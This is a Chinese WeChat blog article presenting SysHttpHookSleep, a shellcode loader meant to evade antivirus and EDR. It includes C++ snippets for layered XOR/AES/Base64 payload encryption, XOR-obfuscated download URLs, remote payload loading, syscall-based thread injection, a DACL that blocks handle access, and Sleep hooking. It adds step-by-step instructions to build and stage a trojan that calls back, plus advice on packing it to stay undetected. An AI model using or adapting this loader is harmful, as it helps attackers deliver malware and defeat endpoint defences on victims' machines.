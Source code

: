 #  内存规避Shellcodeloader

原创 Wangfly  [ SafeTime ](javascript:void\(0\);)

**SafeTime** ![]()

微信号 safetm

功能介绍 分享安全实践经验

____

___发表于_

收录于合集

#对抗 1 个

#内网渗透 2 个

![](https://gitee.com/fuli009/images/raw/master/public/20230714174856.png)

点击上方蓝字关注我们

  
![](https://gitee.com/fuli009/images/raw/master/public/20230714174857.png)\

# SysHttpHookSleep

https://github.com/wangfly-me/SysHttpHookSleep

## 代码来源

集合多种方式的ShellcodeLoader，主要代码来自：

https://github.com/mgeeky/ShellcodeFluctuation

https://github.com/TheD1rkMtr/BlockOpenHandle

## 主要功能

 **Shellcode：** 异或xor加密+Base64编码+AES加密+Base64编码+字符串反转。  

 **加载方式：** URL加密+远程加载+Syswhispers上线。  

 **内存规避：** HOOK Sleep函数+内存xor加密+System权限打开句柄。  

 **反虚拟机：** 注册表+文件+进程+内存。

## 原理浅析

Shellcode加密，采取`异或xor加密+Base64编码+AES加密+Base64编码+字符串反转`。

#### 异或xor加密

可改进，动态key生成

    
    
    const char* xx = rest2_decoded.c_str();  
      
    std::vector<uint8_t> sc;  
      
    for (int j = 0; j < rest2_decoded.length(); j++)  
    {  
        sc.push_back(xx[j] ^ XK2 ^ XK1);  
    }

#### 字符反转

    
    
    reverse(rest2_reference.begin(), rest2_reference.end());

AES和Base64，都有写好的，下载下来，直接用即可。https://github.com/kkAyataka/plusaes

#### URL加密

主要是避免静态特征，加密解密程序如下：

    
    
    int key[] = { 1,2,3,4,5,6,7 };  
      
    void encryption(string& c, int key[]) {  
        int len = c.size();  
        for (int i = 0; i < len; i++) {  
            c[i] = c[i] ^ key[i % 7];  
        }  
    }  
    void decode(string& c, int key[]) {  
        int len = c.size();  
        for (int i = 0; i < len; i++) {  
            c[i] = c[i] ^ key[i % 7];  
        }  
    }

#### 远程线程注入

Syswhispers生成远程线程注入函数，代码如下（可改进，Unhook每个敏感函数，去掉EDR钩子）：

    
    
    bool iS(std::vector<uint8_t>& shellcode, HandlePtr& thread)  
    {  
        HANDLE hHostThread = INVALID_HANDLE_VALUE;  
        auto alloc = VirtualAlloc(NULL, shellcode.size() + 1, MEM_COMMIT, PAGE_READWRITE);  
      
        memcpy(alloc, shellcode.data(), shellcode.size());  
        DWORD old;  
        VirtualProtect(alloc, shellcode.size() + 1, Shellcode_Memory_Protection, &old);  
        shellcode.clear();  
        SIZE_T sDataSize = shellcode.size();  
        NtCreateThreadEx(&hHostThread, 0x1FFFFF, NULL, (HANDLE)-1, (LPTHREAD_START_ROUTINE)alloc, NULL, FALSE, NULL, NULL, NULL, NULL);  
        NtWaitForMultipleObjects(1, &hHostThread, WaitAll, FALSE, NULL);  
        NtFreeVirtualMemory((HANDLE)-1, &alloc, &sDataSize, MEM_RELEASE);  
        return 0;  
    }

#### 内存规避

https://www.freebuf.com/articles/system/361161.html

#### System权限打开句柄

    
    
    void Set()   
    {  
        LPCWSTR sddl = L"D:P"  
            L"(D;OICI;GA;;;WD)"    
            L"(A;OICI;GA;;;SY)"    
            L"(A;OICI;GA;;;OW)";  
      
        PSECURITY_DESCRIPTOR securityDescriptor = nullptr;  
      
        if (!ConvertStringSecurityDescriptorToSecurityDescriptorW(sddl, SDDL_REVISION_1, &securityDescriptor, nullptr))   
        {  
            return;  
        }  
      
        if (!SetKernelObjectSecurity(GetCurrentProcess(), DACL_SECURITY_INFORMATION, securityDescriptor))   
        {  
            return;  
        }  
      
        LocalFree(securityDescriptor);  
    }

## 操作步骤

 **加密编码工具在release中下载。**

先生成stagerless的raw木马，按顺序分别使用enc.py、AES_Shellcode.exe、rev.py生成b.txt文件，并将其部署在服务器端。![](https://gitee.com/fuli009/images/raw/master/public/20230714174858.png)

其次将URL使用URL_XOR.exe进行加密，并分成两段填入str1和str2参数中。![](https://gitee.com/fuli009/images/raw/master/public/20230714174859.png)

最后生成exe，运行上线。![](https://gitee.com/fuli009/images/raw/master/public/20230714174900.png)

## 免杀效果

由于在项目中已经投入使用一段时间，可能有些已经不免杀，可以尝试VMP加壳，或者修改代码二次开发，来规避杀软。

![](https://gitee.com/fuli009/images/raw/master/public/20230714174901.png)

  

 **——The  End——**  

![](https://gitee.com/fuli009/images/raw/master/public/20230714174903.png)

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

